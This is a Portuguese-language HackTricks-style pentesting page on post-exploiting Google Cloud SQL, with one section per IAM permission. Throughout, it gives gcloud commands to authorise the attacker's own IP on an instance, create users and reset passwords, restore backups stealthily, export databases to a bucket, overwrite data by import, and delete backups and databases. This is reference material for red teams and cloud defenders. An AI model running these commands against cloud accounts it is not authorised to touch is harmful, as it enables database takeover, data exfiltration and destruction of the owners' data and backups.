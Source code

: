 # GCP - Cloud SQL Pós Exploração

{{#include ../../../banners/hacktricks-training.md}}

## Cloud SQL

Para mais informações sobre o Cloud SQL, consulte:

{{#ref}}
../gcp-services/gcp-cloud-sql-enum.md
{{#endref}}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Para se conectar aos bancos de dados, você **só precisa de acesso à porta do banco de dados** e saber o **nome de usuário** e **senha**, não há requisitos de IAM. Portanto, uma maneira fácil de obter acesso, supondo que o banco de dados tenha um endereço IP público, é atualizar as redes permitidas e **permitir que seu próprio endereço IP acesse-o**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Também é possível usar **`--no-backup`** para **interromper os backups** do banco de dados.

Como esses são os requisitos, não tenho certeza do que são as permissões **`cloudsql.instances.connect`** e **`cloudsql.instances.login`**. Se você souber, envie um PR!

### `cloudsql.users.list`

Obtenha uma **lista de todos os usuários** do banco de dados:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Esta permissão permite **criar um novo usuário dentro** do banco de dados:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Esta permissão permite **atualizar o usuário dentro** do banco de dados. Por exemplo, você poderia mudar sua senha:
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Backups podem conter **informações sensíveis antigas**, então é interessante verificá-las.\
**Restaurar um backup** dentro de um banco de dados:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Para fazê-lo de uma maneira mais furtiva, é recomendável criar uma nova instância SQL e recuperar os dados lá em vez de nas bases de dados atualmente em execução.

### `cloudsql.backupRuns.delete`

Esta permissão permite excluir backups:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporte um banco de dados** para um Bucket do Cloud Storage para que você possa acessá-lo a partir daí:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importar um banco de dados** (sobrescrever) de um Bucket do Cloud Storage:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Excluir um banco de dados da instância do db:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{{#include ../../../banners/hacktricks-training.md}}
